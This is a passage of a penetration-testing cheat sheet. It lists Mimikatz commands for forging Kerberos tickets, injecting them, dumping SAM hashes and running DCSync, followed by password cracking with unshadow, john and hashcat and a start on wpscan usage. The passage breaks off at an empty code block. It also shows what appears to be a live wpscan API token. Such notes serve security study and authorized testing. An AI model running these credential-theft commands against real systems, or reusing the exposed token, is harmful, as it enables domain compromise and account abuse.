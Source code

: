 ```shell
kerberos::golden /ptt /sid:[Domain_SID] /rc4:[SPN_Hash] /service:[Protocol] /target:[SPN] /domain:[Domain_Name] /user:[Existing_Domain_User]
# Inject ticket of `.kirbi` format into current user session
kerberos::ptt [Name].kirbi

```
- <mark>lsadump</mark>
```bash
# extracts the NTLM hashes from the SAM
lsadump::sam
# DC-Sync attack against specific user
lsadump::dcsync  /user:[Username]
```
# Hash-Cracking
- <mark>Note</mark>:
	- `/` and `.` is sometimes part of hash (e.g. PHPass, etc). However, `\` is NOT since it is usually used as an escaping character.
- <mark>unshadow</mark>
```bash
unshadow [etc/passwd] [etc/shadow] > unshadowed.txt  
```
### john
- <mark>Basic Cracking</mark>
```bash
john [HASH_FILE] --wordlist=[wordlist]  --format=[format]  
```
- <mark>Rule-Based</mark>
```bash
# Example Rule and append following to `/etc/john/john.conf`
# where `$` appends the character followed, `c` capitalize the first character and convert the rest to lowercase.
[List.Rules:sshRules]
$1 c $!

john [HASH_FILE] --wordlist=[wordlist] --rules=[Rule_Name] 
```
### hashcat
- <mark>Basic Cracking</mark>
```bash
hashcat -m [Hash_Type_ID] [Hash_File] [Wordlist] --force
```
- <mark>Rule-Based</mark>
```bash
# Example Rule
# where `$` appends the character followed, `c` capitalize the first character and convert the rest to lowercase.
$1 c $!

hashcat -m [Hash_Type_ID] [Hash_File] [Wordlist] -r /usr/share/hashcat/rules/[Rule_File] --force
```
# Vulnerability Scanning
### wpscan
- `API Token`: 
	- --api-token
	- Wdicn0ZzE456gH89CwNsFmsKLsCWAFEjw7yHlUiEMdE
- <mark>Basic Scan</mark>
```bash
wpscan --url [TARGET_URL]
```
- <mark>Aggressive Vulnerable Plugins Enumeration</mark>
```bash
```